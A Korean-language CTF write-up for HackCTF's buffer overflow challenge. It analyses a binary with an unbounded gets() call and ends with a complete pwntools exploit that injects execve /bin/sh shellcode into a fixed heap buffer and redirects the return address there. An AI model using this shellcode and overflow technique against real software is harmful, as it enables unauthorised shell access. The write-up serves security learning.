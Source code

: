 ```yaml
---
title: "HackCTF 내 버퍼가 넘쳐흐른다 Write-Up"
tags: [wargame]
categories: ["System"]
---
```


# Index

1. [문제 분석](#문제-분석)

* * *

## 문제 분석

이전 문제들과 다르게 문제의 제목을 통해서 예측하기엔 추상적인 내용을 담고 있었습니다. 프로그램을 실행해보면 두 번의 입력을 받는 것과 각각 Name, input 내용을 입력 받음을 확인할 수 있었습니다.

```
root@3218f793af99:~/hackctf/prob# ./prob1
Name : persian
input : Test
```

입력을 받고 별도의 출력값은 없었습니다. 문제의 제목을 보면 아마도 overflow 취약점은 있지 않을까 싶어 각각 입력값에 대한 overflow 조건을 확인해보기 위해 많은 값을 입력해보았습니다.

두 입력 모두 overflow가 발생하는 것을 확인하였지만 차이가 있었습니다.

1. 첫 번째 입력에서 범위 이상의 값을 입력했을 경우 두 번째 입력에서 별도로 입력받지 않고 Segmentation fault가 발생
2. 두 번째 입력에서 범위 이상의 값을 입력했을 경우에도 마찬가지로 Segmentation fault 발생

1번 결과를 더 분석해보면 첫 번째 입력에서 overflow 된 값이 두 번째 입력에도 사용되어 이때 또한 overflow가 발생하여 Segmentation fault가 발생하였을 것으로 예상되었습니다.

## GDB 분석

GDB를 이용한 분석을 진행하며 프로그램의 구조를 알 수 있었고 Exploit을 위한 payload를 구성할 수 있었습니다. 우선 첫 번째 입력의 경우 Heap 공간에, 두 번째 입력의 경우 지역 변수에 값을 저장하였습니다.

Overflow 공격에 있어서 Heap과 Stack의 가장 큰 차이점은 ret 주소를 직접 변조하는 것이 가능한지, 아닌지입니다. 첫 번째 입력의 경우 read 함수를 사용하여 50 Byte까지 입력이 가능하였으며 두 번째는 gets 함수를 이용해 제한 없이 입력이 가능하였습니다.

Heap memory 영역에 저장되는 주소가 고정되어 있다는 점을 이용하여 첫 번째 입력에서 shellcode를 삽입하고 ret 조작이 가능한 stack overflow를 통해 해당 주소로 흐름을 조작할 수 있도록 payload를 작성하였습니다.

## Exploit

최종적으로 작성한 exploit code는 다음과 같습니다.

```python
#!/usr/bin/python3

import pwn 

p = pwn.remote("ctf.j0n9hyun.xyz", 3003)
pwn.context.log_level = 'debug'

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"
name = 0x804a060
padding = b"A"*24

payload = b"\x90"*10
payload += shellcode
payload += b"\x90"*5
p.sendlineafter("Name : ", payload)

payload = padding
payload += pwn.p32(name)
p.sendlineafter("input : ", payload)

p.interactive()
```

padding의 경우 main의 초반부에서 `sub esp, 0x14`를 통해 stack의 공간을 확보하는 것을 통해 0x14를 buf의 크기로 잡고 여기에 sfp 4 byte를 더해 0x18 즉, 24 byte로 구하였습니다.
